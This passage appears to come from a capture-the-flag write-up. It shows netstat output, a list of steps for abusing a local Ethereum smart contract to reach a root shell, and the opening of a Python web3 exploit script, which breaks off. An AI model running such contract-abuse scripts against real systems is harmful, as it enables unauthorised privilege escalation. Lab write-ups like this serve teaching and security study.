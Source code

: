 {% highlight console %}
$ netstat -punta | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:9810            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:63991         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
{% endhighlight %}

Moving on, we will develop another script to try and interact with the higher port number – and indeed, confirm that it is an RPC interface. To summarize the exploit script, which needs quite some attempts to get it right through playing around contract’s functions, we need to fulfill four conditions:

1. Set a new username and password. Default values equal to blank, which the program returns a _“Blank credentials not allowed”_
2. Match the credentials from the smart contract, otherwise you get a _“Wrong credentials”_ message
3. Approve our user since the program was returning a _“User is not approved”_ message
4. Transfer enough (all) funds from supply to our user’s balance in order to enter the club (root shell), otherwise you get a _“Not enough funds”_ message

{% highlight python %}
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from web3 import Web3
import json, hashlib

def enter_club():
    # Store Ethereum contract address
    with open("/home/bobby/projects/ChainsawClub/address.txt",'r') as f:
        caddress = f.read().rstrip()
        f.close()

    # Load Ethereum contract configuration
    with open('/home/bobby/projects/ChainsawClub/ChainsawClub.json') as f:
        contractData = json.load(f)
        f.close()

    # Establish a connection with the Ethereum RPC interface
    w3 = Web3(Web3.HTTPProvider('http://127.0.0.1:63991'))
    w3.eth.defaultAccount = w3.eth.accounts[0]

    # Get Application Binary Interface (ABI) and Ethereum bytecode
    Url = w3.eth.contract(abi=contractData['abi'],
                          bytecode=contractData['bytecode'])
    contractInstance = w3.eth.contract(address=caddress,
                                       abi=contractData['abi'])

    # Phase I & II: Create a new account and confirm
    username = "artikrh"
    password = hashlib.md5()
    password.update("arti".encode('utf-8'))
    password = password.hexdigest()
    contractInstance.functions.setUsername(username).transact()